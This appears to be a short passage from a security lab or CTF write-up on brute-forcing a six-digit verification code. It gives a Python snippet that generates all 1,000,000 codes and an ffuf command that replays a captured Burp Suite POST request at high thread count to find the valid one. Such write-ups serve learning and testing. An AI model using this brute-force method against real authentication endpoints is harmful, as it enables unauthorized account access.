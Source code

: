 <figure><img src="../../.gitbook/assets/image (1341).png" alt=""><figcaption></figcaption></figure>

This works, but is hella slow.&#x20;

### Better Brute Force

Use this to generate all possible codes:

```python
pw_list = [f"{password:06d}" for password in range(1000000)]
for i in pw_list:
	print(i)
# python3 wordlist.py > possible_codes
```

Capture a request from Burpsuite for the POST request and then feed it to `ffuf`:

```bash
ffuf -request req -w possible_codes -t 70 -fs 89 > output
```

Then just monitor the output file for any entries that end up inside. This would be the correct code used. This takes around 10-20 minutes, which is a lot faster.

<figure><img src="../../.gitbook/assets/image (2938).png" alt=""><figcaption></figcaption></figure>

